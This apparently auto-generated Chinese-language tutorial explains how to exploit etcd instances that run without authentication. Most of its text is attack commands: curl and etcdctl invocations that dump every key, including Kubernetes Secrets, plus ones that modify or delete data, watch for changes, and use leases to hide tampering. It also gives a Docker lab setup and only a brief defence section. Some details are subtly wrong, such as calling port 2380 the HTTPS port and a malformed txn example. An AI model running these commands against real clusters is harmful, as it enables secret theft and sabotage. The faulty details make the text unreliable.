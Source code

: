 # ETCD未授权访问利用的攻击技术

## 1. 技术原理解析

### 1.1 ETCD简介
ETCD是一个分布式键值存储系统，通常用于Kubernetes等分布式系统中存储配置数据和元数据。由于其重要性，ETCD的安全性至关重要。然而，如果ETCD未正确配置，攻击者可能会利用未授权访问漏洞获取敏感信息或控制系统。

### 1.2 未授权访问漏洞
ETCD未授权访问漏洞通常是由于配置不当导致的，例如未启用身份验证或未正确配置访问控制列表（ACL）。攻击者可以通过直接访问ETCD的API端点，获取或修改存储在ETCD中的数据。

### 1.3 底层实现机制
ETCD使用HTTP/HTTPS协议提供API服务，默认端口为2379（HTTP）和2380（HTTPS）。如果未启用身份验证，攻击者可以通过简单的HTTP请求访问ETCD的API，执行读取、写入、删除等操作。

## 2. 常见攻击手法和利用方式

### 2.1 直接访问API
攻击者可以通过直接访问ETCD的API端点，获取或修改存储在ETCD中的数据。例如，使用`curl`命令获取所有键值对：

```bash
curl http://<ETCD_IP>:2379/v2/keys/?recursive=true
```

### 2.2 利用ETCDctl工具
ETCDctl是ETCD的官方命令行工具，攻击者可以使用它来执行各种操作。例如，获取所有键值对：

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 get / --prefix
```

### 2.3 修改Kubernetes配置
如果ETCD用于存储Kubernetes的配置数据，攻击者可以通过修改ETCD中的数据来影响Kubernetes集群的行为。例如，修改Pod的配置或创建新的Pod。

### 2.4 数据泄露
攻击者可以通过读取ETCD中的数据，获取敏感信息，如Kubernetes的Secrets、ConfigMaps等。

## 3. 变种和高级利用技巧

### 3.1 利用ETCD的Watch功能
ETCD提供了Watch功能，允许客户端监听键值的变化。攻击者可以利用此功能实时监控ETCD中的数据变化，获取敏感信息。

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 watch / --prefix
```

### 3.2 利用ETCD的事务功能
ETCD支持事务操作，攻击者可以利用事务功能批量修改数据，增加攻击的隐蔽性。

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 txn <<<'mod("/key", "value")'
```

### 3.3 利用ETCD的Lease功能
ETCD的Lease功能允许客户端为键值设置租约，租约到期后键值会自动删除。攻击者可以利用此功能隐藏恶意操作。

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 lease grant 60
etcdctl --endpoints=http://<ETCD_IP>:2379 put /key value --lease=<LEASE_ID>
```

## 4. 攻击步骤和实验环境搭建指南

### 4.1 实验环境搭建
1. 安装Docker和Docker Compose。
2. 创建一个`docker-compose.yml`文件，内容如下：

```yaml
version: '3'
services:
  etcd:
    image: quay.io/coreos/etcd:v3.4.0
    ports:
      - "2379:2379"
      - "2380:2380"
    command: etcd --advertise-client-urls http://0.0.0.0:2379 --listen-client-urls http://0.0.0.0:2379
```

3. 启动ETCD容器：

```bash
docker-compose up -d
```

### 4.2 攻击步骤
1. 确认ETCD未启用身份验证：

```bash
curl http://<ETCD_IP>:2379/v2/keys/?recursive=true
```

2. 使用ETCDctl获取所有键值对：

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 get / --prefix
```

3. 修改或删除键值：

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 put /key value
etcdctl --endpoints=http://<ETCD_IP>:2379 del /key
```

4. 利用Watch功能监控键值变化：

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 watch / --prefix
```

## 5. 实际命令、代码或工具使用说明

### 5.1 使用curl访问ETCD API

```bash
curl http://<ETCD_IP>:2379/v2/keys/?recursive=true
```

### 5.2 使用ETCDctl操作ETCD

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 get / --prefix
etcdctl --endpoints=http://<ETCD_IP>:2379 put /key value
etcdctl --endpoints=http://<ETCD_IP>:2379 del /key
```

### 5.3 使用ETCD的Watch功能

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 watch / --prefix
```

### 5.4 使用ETCD的事务功能

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 txn <<<'mod("/key", "value")'
```

### 5.5 使用ETCD的Lease功能

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 lease grant 60
etcdctl --endpoints=http://<ETCD_IP>:2379 put /key value --lease=<LEASE_ID>
```

## 6. 防御措施

1. 启用ETCD的身份验证功能。
2. 配置访问控制列表（ACL）限制访问。
3. 使用HTTPS加密通信。
4. 定期审计ETCD的配置和日志。

## 结论

ETCD未授权访问漏洞可能导致严重的安全问题，攻击者可以通过多种方式利用此漏洞获取或修改敏感数据。通过理解其技术原理和攻击手法，可以更好地防御此类漏洞。

---

*文档生成时间: 2025-03-14 13:06:07*
